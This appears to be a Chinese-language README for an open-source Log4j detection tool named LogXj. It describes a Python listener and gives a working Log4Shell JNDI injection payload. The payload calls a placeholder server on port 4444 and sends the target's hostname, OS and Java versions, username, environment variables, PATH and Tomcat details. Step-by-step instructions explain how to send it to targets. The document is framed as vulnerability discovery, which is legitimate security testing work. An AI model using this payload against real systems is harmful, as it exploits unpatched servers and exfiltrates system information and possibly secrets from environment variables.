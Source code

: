 ## 简介

- 用于探测Log4j漏洞, 将它POC的威力最大化, POC验证成功后会立即收到目标机器的系统主机名、时间、版本号、用户名、环境变量以及Log4j路径、java版本号、中间件信息等信息.

## 灵感来源

- 由于不能第一时间立刻知道某应用系统整个组件调用链、数据传输链、系统调用链中是否存在Log4j漏洞，因此经常需要黑盒测试来fuzzing。可以利用存在漏洞的Log4j组件会向攻击者指定的dns服务端发起域名解析请求的特性判断漏洞的存在，但是内网不一定存在dns服务器，即使存在也不一定配置了dns服务器，即使配置了但是通过dnslog这类平台也无法知道是内网中的哪台机器存在漏洞，即使知道了也不确定是那台机器上的哪个web应用存在漏洞，用的是哪个版本的java环境以及哪个中间件。
- 根据自己以上种种痛点写了这个小工具，提高挖洞效率，顺便开源出来。

## 作用

- 监听端口, 等待猎物，被动式发现存在Log4j漏洞的机器.
- 最大化了POC的威力: 可以获取目前机器的系统时间、主机名、Log4j路径、系统版本号、java版本号、系统用户名、中间件信息（含物理路径）、环境变量等敏感信息.
- 功能超越了dnslog和ncat.
- 时刻监听同一端口, 可不限制地接收多个目标传输过来的漏洞信息.
- 收到漏洞信息后立即断开, 避免占用目标的程序线程和网络连接.
- 记录历史, 保存漏洞信息.

## 优点

- 代码开源, 安全可控.
- 不依赖第三方库.
- 跨平台.
- 解决了内网环境没有dns服务器、不通dnslog等问题.
- 解决了内网环境无法下载ncat的问题.
- 解决了ncat命令过于冗余的问题.
- 解决了ncat监听模式下需要频繁ctrl+c才能终止OOB连接的问题.
- 兼容Python2和Python3.
- 解决了fuzzing工程师不清楚fuzzing成功了哪台目标机器的问题.
- 解决了fuzzing工程师不清楚fuzzing成功了目标机器上的哪个web应用的问题.

## 用法

1. 找一台所有内网服务器都通的服务器，搭建```LogXj安全服务端```，命令如下：
```
python logxj.py
```

2. 以下是我构造的```LOGXJ POC```，需要先手动把里面的```LOGXJ_SERVER```替换为```LogXj安全服务端的IP```，然后把它发送给使用了log4j的目标：
```shell
${jndi:ldap://LOGXJ_SERVER:4444/\nFound Log4j vuln!\nDate\t:${date:yyyy-MM-dd HH:mm:ss}\nHostname:${hostName}\nConf dir:${log4j:configLocation:-}\nOs ver\t:${java:os}\nJava ver:${java:version}\nUser\t:${env:USER:-}${env:USERNAME:-}\nIsTomcat:${env:CATALINA_BASE:-False}\nPATH\t:${env:PATH:-}\n\nEnd}
```

3. 此时观察```LogXj安全服务端```的控制台：
- 若收到回显，则说明目标或数据传输链路中的某些系统存在log4j漏洞。
- 若没有回显，则说明可能暂无风险，也可能是和下面的```额外说明```有关。

## 额外说明

- 若用本项目的方式无法发现漏洞，但是用dnslog的方式能发现漏洞，则可能是因为```存在log4j漏洞的系统```与```LogXj安全服务端```网络不通，而```存在log4j漏洞的系统```与DNS服务器正好因dns解析而网络相通。
- 建议把```LogXj安全服务端```部署在一台所有内网服务器都通的服务器上。
